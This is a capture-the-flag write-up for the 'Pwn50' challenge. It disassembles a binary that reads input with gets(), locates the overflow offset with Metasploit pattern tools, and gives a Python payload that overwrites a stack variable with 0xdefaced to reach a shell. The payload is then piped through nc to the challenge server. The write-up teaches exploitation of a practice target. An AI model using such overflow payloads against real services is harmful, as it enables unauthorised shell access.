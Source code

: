 ## input
You look new here
so this is my gift for you
task : nc 54.153.19.139 5251
just write something when connect , its always UP

## output
We try to connect and input a lot of char:

```~/Documents/challenge/CTF/Bugs\_Bunny/Pwn50$ ./pwn50 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Erreur de segmentation (core dumped)```

So we open the binary in GDB:

```~/Documents/challenge/CTF/Bugs_Bunny/Pwn50$ gdb ./pwn50 
GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...

warning: ~/.gdbinit.local: Aucun fichier ou dossier de ce type
Reading symbols from ./pwn50...(no debugging symbols found)...done.
gdb-peda$ disass main
Dump of assembler code for function main:
   0x0000000000400646 <+0>:	push   rbp
   0x0000000000400647 <+1>:	mov    rbp,rsp
   0x000000000040064a <+4>:	push   rbx
   0x000000000040064b <+5>:	sub    rsp,0x38
   0x000000000040064f <+9>:	mov    DWORD PTR [rbp-0x34],edi
   0x0000000000400652 <+12>:	mov    QWORD PTR [rbp-0x40],rsi
   0x0000000000400656 <+16>:	mov    QWORD PTR [rbp-0x18],0x0
   0x000000000040065e <+24>:	lea    rax,[rbp-0x30]
   0x0000000000400662 <+28>:	mov    rdi,rax
   0x0000000000400665 <+31>:	mov    eax,0x0
   0x000000000040066a <+36>:	call   0x400520 <gets@plt>
   0x000000000040066f <+41>:	movzx  eax,BYTE PTR [rbp-0x30]
   0x0000000000400673 <+45>:	cmp    al,0x62
   0x0000000000400675 <+47>:	jne    0x4006ce <main+136>
   0x0000000000400677 <+49>:	movzx  eax,BYTE PTR [rbp-0x2f]
   0x000000000040067b <+53>:	cmp    al,0x75
   0x000000000040067d <+55>:	jne    0x4006ce <main+136>
   0x000000000040067f <+57>:	movzx  eax,BYTE PTR [rbp-0x2e]
   0x0000000000400683 <+61>:	cmp    al,0x67
   0x0000000000400685 <+63>:	jne    0x4006ce <main+136>
   0x0000000000400687 <+65>:	cmp    QWORD PTR [rbp-0x18],0xdefaced
   0x000000000040068f <+73>:	jne    0x4006ce <main+136>
   0x0000000000400691 <+75>:	mov    edi,0x400764
   0x0000000000400696 <+80>:	call   0x4004e0 <puts@plt>
   0x000000000040069b <+85>:	mov    eax,0x0
   0x00000000004006a0 <+90>:	call   0x400500 <geteuid@plt>
   0x00000000004006a5 <+95>:	mov    ebx,eax
   0x00000000004006a7 <+97>:	mov    eax,0x0
   0x00000000004006ac <+102>:	call   0x400500 <geteuid@plt>
   0x00000000004006b1 <+107>:	mov    esi,ebx
   0x00000000004006b3 <+109>:	mov    edi,eax
   0x00000000004006b5 <+111>:	mov    eax,0x0
   0x00000000004006ba <+116>:	call   0x400530 <setreuid@plt>
   0x00000000004006bf <+121>:	mov    edi,0x400773
   0x00000000004006c4 <+126>:	mov    eax,0x0
   0x00000000004006c9 <+131>:	call   0x4004f0 <system@plt>
   0x00000000004006ce <+136>:	mov    eax,0x0
   0x00000000004006d3 <+141>:	add    rsp,0x38
   0x00000000004006d7 <+145>:	pop    rbx
   0x00000000004006d8 <+146>:	pop    rbp
   0x00000000004006d9 <+147>:	ret    
End of assembler dump.```

We remark that there are 3 cmp *al* versus *0x62 0x75 0x67*, which in ASCII world means bug. Then we look which are the char of the overflow that are compared to *0xdefaced*.

First we generate a pattern:
```# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 50
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab```

Then we use the pattern as input after the bug string:
```gdb-peda$ b * 0x0000000000400687
Breakpoint 1 at 0x400687
gdb-peda$ r
Starting program: /home/tenflo/Documents/challenge/CTF/Bugs_Bunny/Pwn50/pwn50 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
bugAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab










[----------------------------------registers-----------------------------------]
RAX: 0x67 ('g')
RBX: 0x0 
RCX: 0x7ffff7dd18e0 --> 0xfbad2288 
RDX: 0x7ffff7dd3790 --> 0x0 
RSI: 0x602045 --> 0xa ('\n')
RDI: 0x7fffffffdcf5 --> 0xfff7a2d830000000 
RBP: 0x7fffffffdcf0 --> 0x6241356241 ('Ab5Ab')
RSP: 0x7fffffffdcb0 --> 0x7fffffffddd8 --> 0x7fffffffe161 ("/home/tenflo/Documents/challenge/CTF/Bugs_Bunny/Pwn50/pwn50")
RIP: 0x400687 (<main+65>:	cmp    QWORD PTR [rbp-0x18],0xdefaced)
R8 : 0x602046 --> 0x0 
R9 : 0x6141386141376141 ('Aa7Aa8Aa')
R10: 0x4131624130624139 ('9Ab0Ab1A')
R11: 0x246 
R12: 0x400550 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffddd0 --> 0x2 
R14: 0x0 
R15: 0x0
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x40067f <main+57>:	movzx  eax,BYTE PTR [rbp-0x2e]
   0x400683 <main+61>:	cmp    al,0x67
   0x400685 <main+63>:	jne    0x4006ce <main+136>
=> 0x400687 <main+65>:	cmp    QWORD PTR [rbp-0x18],0xdefaced
   0x40068f <main+73>:	jne    0x4006ce <main+136>
   0x400691 <main+75>:	mov    edi,0x400764
   0x400696 <main+80>:	call   0x4004e0 <puts@plt>
   0x40069b <main+85>:	mov    eax,0x0
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdcb0 --> 0x7fffffffddd8 --> 0x7fffffffe161 ("/home/tenflo/Documents/challenge/CTF/Bugs_Bunny/Pwn50/pwn50")
0008| 0x7fffffffdcb8 --> 0x20040072d 
0016| 0x7fffffffdcc0 ("bugAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab")
0024| 0x7fffffffdcc8 ("1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab")
0032| 0x7fffffffdcd0 ("a4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab")
0040| 0x7fffffffdcd8 ("Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab")
0048| 0x7fffffffdce0 ("9Ab0Ab1Ab2Ab3Ab4Ab5Ab")
0056| 0x7fffffffdce8 ("b2Ab3Ab4Ab5Ab")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0000000000400687 in main ()
gdb-peda$ x/xw $rbp-0x18
0x7fffffffdcd8:	0x41376141```

Then we use pattern\_offset to know the offset that is compared to *0xdefaced*:
```# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 50 -q 0x41376141
[*] Exact match at offset 21```

We test locally if it's the right solution:
```~/Documents/challenge/CTF/Bugs_Bunny/Pwn50$ python -c "print 'bug'+'A'*21+'\xed\xac\xef\x0d'" > input.hex
~/Documents/challenge/CTF/Bugs_Bunny/Pwn50$ (cat input.hex ; cat) | ./pwn50 
Cool Stuff :p!
whoami
tenflo```

So we can have our shell on the server with:
```(cat input.hex ; cat ) | nc 54.153.19.139 5251```

